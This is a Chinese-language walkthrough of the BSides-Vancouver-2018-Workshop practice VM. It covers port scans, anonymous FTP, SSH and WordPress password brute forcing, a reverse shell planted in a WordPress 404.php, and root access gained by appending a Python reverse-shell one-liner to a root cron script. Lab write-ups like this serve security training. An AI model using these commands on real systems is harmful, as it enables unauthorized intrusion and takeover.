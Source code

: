 ```yaml
---
# 这是页面的图标
icon: computer
# 这是文章的标题
title: 靶机 BSides-Vancouver-2018-Workshop Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2022-04-04
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false

typora-root-url: ..\..\..\.vuepress\public
---
```




扫描ip

```
└─$ nmap -sP 192.168.182.0/24         
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-04 11:31 EDT
Nmap scan report for 192.168.182.2
Host is up (0.00042s latency).
Nmap scan report for 192.168.182.128
Host is up (0.00021s latency).
Nmap scan report for 192.168.182.131
Host is up (0.00074s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 15.73 seconds
```

扫描目标

```
┌──(kali㉿kali)-[/tmp]
└─$ nmap -T5 -A -v -p- 192.168.182.131                                                   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-04 11:30 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:30
Completed NSE at 11:30, 0.00s elapsed
Initiating NSE at 11:30
Completed NSE at 11:30, 0.00s elapsed
Initiating NSE at 11:30
Completed NSE at 11:30, 0.00s elapsed
Initiating Ping Scan at 11:30
Scanning 192.168.182.131 [2 ports]
Completed Ping Scan at 11:30, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:30
Completed Parallel DNS resolution of 1 host. at 11:31, 13.01s elapsed
Initiating Connect Scan at 11:31
Scanning 192.168.182.131 [65535 ports]
Discovered open port 80/tcp on 192.168.182.131
Discovered open port 21/tcp on 192.168.182.131
Discovered open port 22/tcp on 192.168.182.131
Completed Connect Scan at 11:31, 2.20s elapsed (65535 total ports)
Initiating Service scan at 11:31
Scanning 3 services on 192.168.182.131
Completed Service scan at 11:31, 6.02s elapsed (3 services on 1 host)
NSE: Script scanning 192.168.182.131.
Initiating NSE at 11:31
NSE: [ftp-bounce] PORT response: 500 Illegal PORT command.
Completed NSE at 11:31, 0.52s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.01s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Nmap scan report for 192.168.182.131
Host is up (0.00023s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 65534    65534        4096 Mar 03  2018 public
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.182.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 2.3.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 85:9f:8b:58:44:97:33:98:ee:98:b0:c1:85:60:3c:41 (DSA)
|   2048 cf:1a:04:e1:7b:a3:cd:2b:d1:af:7d:b3:30:e0:a0:9d (RSA)
|_  256 97:e5:28:7a:31:4d:0a:89:b2:b0:25:81:d5:36:63:4c (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/backup_wordpress
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.17 seconds

```

## 方法一

有21端口，尝试用匿名账号登录

![image-20220421180049816](/assets/img/image-20220421180049816.png)

发现users.txt.bk 文件夹，下载后查看内容，有5个用户名

用这5个用户进行ssh爆破，anne用户爆破成功

![image-20220421180055966](/assets/img/image-20220421180055966.png)

登陆后发现anne在sudo组，sudo 提权成功

![image-20220421180100595](/assets/img/image-20220421180100595.png)

## 方法二

```bash
┌──(kali㉿kali)-[/tmp]
└─$ nikto -host 192.168.182.131
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.182.131
+ Target Hostname:    192.168.182.131
+ Target Port:        80
+ Start Time:         2022-04-04 11:46:51 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Server may leak inodes via ETags, header found with file /, inode: 2140, size: 177, mtime: Sat Mar  3 14:17:59 2018
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.26
+ Uncommon header 'link' found, with contents: </backup_wordpress/?rest_route=/>; rel="https://api.w.org/"
+ Entry '/backup_wordpress/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8726 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2022-04-04 11:47:21 (GMT-4) (30 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

发现robots.txt,查看内容

![image-20220421180107562](/assets/img/image-20220421180107562.png)

发现扫描结果中提到的/backup_wordpress/，访问后发现是wordpress

![image-20220421180111810](/assets/img/image-20220421180111810.png)

扫描用户

```bash
wpscan --url http://192.168.182.131/backup_wordpress --enumerate u
```

![image-20220421180117176](/assets/img/image-20220421180117176.png)

发现john和admin

爆破john，发现密码

![image-20220421180122247](/assets/img/image-20220421180122247.png)

登录wordpress，修改404.php，反弹shell

![image-20220421180126723](/assets/img/image-20220421180126723.png)

kali监听 nc -nlvp 4444

访问http://192.168.56.107/backup_wordpress/wp-content/themes/twentysixteen/404.php，获得反弹shell

![image-20220421180132578](/assets/img/image-20220421180132578.png)

尝试内核提权和suid提权都没有成功，查看调度任务

![image-20220421180137224](/assets/img/image-20220421180137224.png)

发现root权限执行cleanup脚本，查看cleanup

![image-20220421180141923](/assets/img/image-20220421180141923.png)

在cleanup后面添加一行，反弹shell代码

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.182.128",4321));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

稍等几分钟，自动反弹，获得root权限

![image-20220421180146579](/assets/img/image-20220421180146579.png)